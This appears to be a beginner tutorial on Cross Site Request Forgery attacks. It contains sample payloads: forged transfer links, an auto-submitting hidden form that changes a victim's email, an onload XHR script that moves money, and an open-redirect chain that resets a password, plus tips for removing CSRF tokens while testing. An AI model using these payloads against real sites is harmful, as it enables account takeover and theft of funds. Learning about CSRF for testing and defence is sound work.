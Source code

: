 ![CSRF1](https://github.com/user-attachments/assets/74bc82cd-e65e-4a5a-a10d-51dfbb88fc42)

Usually, a CSRF attack involves state change requests because the hacker does not receive information. Deleting a record, changing a password, buying a product or sending a message are some examples of these requests. A hacker usually uses social engineering to send a link to a user’s email or chat. After the user clicks on the link, the commands set by the hacker will be executed. For example, if the link is clicked, the hacker can transfer the balance of an account or prevent the user from re-entering the user area by changing the email address.

H**ow does Cross Site Request Forgery work?** No unpredictable request parameters — the attacker can guess or know all the parameters the application expects from this type of request, like amount,accountNumber,user_id,…

A CSRF attack can use either a GET request or a POST request, although a POST request is more complex and therefore less common, **So, right here, you noticed the first sign of the existence of the CSRF**, and wherever you saw an important request to change the password or transfer money or any other important request was being sent with the GET method, we can give the possibility of a CSRF vulnerability.

The most important step in CSRF attacks is tricking the user into sending status change requests during login. In fact, the attacker’s goal is to force an authenticated user to send a malicious request to a web site or application without their knowledge. These requests can include cookies, URL parameters, and other types of data that appear normal to a user.

**Other importnat point is cookies policy**, cookies should be used in applications that have a weak Same Site cookie policy. SameSite determines when and how cookies are enabled. Cookies will often be stored anonymously and automatically in browsers.  
If SameSite is set to **strict**, no cookie is shared when the user navigates between sites to prevent CSRF attacks. If SameSite is set to **none**, cookies will be available on all sites. This makes your application vulnerable to CSRF attacks.

## Attack Scenario
**3–1 GET method:** Imagine that your bank (bank.com) processes transfers using GET requests that contain several parameters (the identity of the recipient of the transfer and the amount of your transfer).

For example, if the user wants to send someone 100$, the request may be as follows:

```
http://bank.com/transfer?recipient=Atosa&amount=100
```

Now, a very smart user might be persuaded to click on a link that looks like this (but shortened by URL or linked directly):

```
http://bank.com/transfer?recipient=Attacker&amount=100000
```

That we use this example in real world:

```html
<a href="https://example.com/transfer?amount=500&accountNumber=100852">Click here to get more information</a>.
```

**2–3 POST method:** If a bank only uses POST requests instead of GET requests, the other hyperlinks used in the GET example will not respond. Therefore, to have a CSRF attack, the hacker must create an HTML form.

The POST request requires a cookie to authenticate the user, the amount to be paid, and the destination account.

The attacker must add a real cookie to his fake request to force the server to process the transfer. They can do this by using a seemingly harmless link to redirect the user to a new page similar to the one below.

```html
<form action="https://example.com/email/change" method="POST">  
<input type="hidden" name="email" value="hacker@email.com"/>  
</form>  
<script>  
document.forms[0].submit  
</script>
```

Account information are set in the form above. When an authenticated user visits the page, the browser adds a session cookie before sending the request to the server. Finally, the server will change email easy.

**3–3 PUT method:** Using the PUT method and scenario rarely happens, but knowing this method does not harm.

Think for transfer money we have this request :

```http
PUT http://bank.com/transfer.do HTTP/1.1  
...  
{ "acct":"user", "amount":100 }
```

At the first we know to those request use json and have authenticate by cookie … and just need send fake request front user by XHR bad code or **XmlHttpRequest** :

```js
<script>  
function put() {  
var x = new XMLHttpRequest();  
x.open("PUT","http://bank.com/transfer.do",true);  
x.setRequestHeader("Content-Type", "application/json");  
x.send(JSON.stringify({"acct":"attacker", "amount":100}));   
}  
</script>  
<body onload="put()">
```

## Note :
**2-1 Content type:** In content type we must have this headers for CSRF attack :

```http
application/x-www-form-urlencoded  
multipart/form-data  
text/plain
```

Also in **storage(inspect)** part must see content type = **none** or **lak** and if see other too must delete that and test again.

**2–2 CSRF Token** 
1. Reload site and check source of page and search about find CSRF token.  
2. Delete CSRF token

## Multi Attack
1. We can use CORS bug for arrive to CSRF bug !!  
2. We can use web cache bug for arrive CSRF bug too !!  
3. We can use Open-redirect bug for arrive CSRF bug too!!  
4. We can use XSS(Stored) bug for arrive CSRF bug too!!  
_Because the purpose of this article is for beginners and intermediate people, explaining complex examples is avoided and we only give examples about open redirect because it is easier to understand:_

![CSRF2](https://github.com/user-attachments/assets/2f8b6ec0-f625-4d91-a071-68bc491990c9)


**Open-redirect — CSRF**
We have a site with this URL:
```
https://example.com/?redirect_to=https://example2.com
```

When we find some parameter like `redirect_to,URL,…`, we can easily test the Open_Redirect payloads and if there is Open_Redirect vulnerability, we can also try to reach the CSRF:
```
http://example.com/?redirect_to=https://vulnerable.com/panel/change_pass?pass=123456
```

And when victor click on this url we change password to 123456 easy by Open-redirect + CSRF bug !!!

GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)


